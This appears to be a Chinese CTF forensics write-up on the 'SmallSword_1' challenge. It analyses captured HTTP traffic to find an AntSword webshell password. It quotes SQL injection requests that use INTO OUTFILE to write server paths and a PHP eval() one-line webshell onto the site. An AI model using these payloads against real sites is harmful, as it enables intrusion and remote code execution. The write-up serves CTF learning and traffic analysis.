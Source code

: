 ## SSW

### SmallSword\_1

> 题目内容：连接蚁剑的正确密码是******\_\_******?（答案示例：123asd）

既然题目说明蚁剑，那么我们直接过滤 http 流，可以看到是一个`sqlilab`的网站，我们查看注入的语句，可以看到进行了写文件操作，将`@@basedir`等结果写入到 2.txt。  
[![](assets/1702520939-1c2ba2a5d74289d441936160c4b00960.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213163019-d9aebf42-9991-1.png)

```bash
GET /sqlii/Less-7/index.php?id=-1')) union select 1,@@basedir,@@datadir into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\sqlii\\Less-7\\2.txt" --  HTTP/1.1
```

并且请求了 2.txt 可以看到响应内容如下。  
[![](assets/1702520939-6d1239d1214a5326c1dcc10578c19c58.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213163047-ea18edee-9991-1.png)  
继续往下看，关注 2988 和 3075 这两个数据包，内容分别是：

```bash
# 2988
GET /sqlii/Less-7/index.php?id=-1')) union select 1,2,"<?php @eval($_POST["6ea280898e404bfabd0ebb702327b18f"]);?>" into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\sqlii\\Less-7\\1.php" HTTP/1.1

# 3075
GET /sqlii/Less-7/index.php?id=-1')) union select 1,2,"<?php @eval($_POST["6ea280898e404bfabd0ebb702327b18f"]);?>" into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\sqlii\\Less-7\\info1.php" HTTP/1.1
```
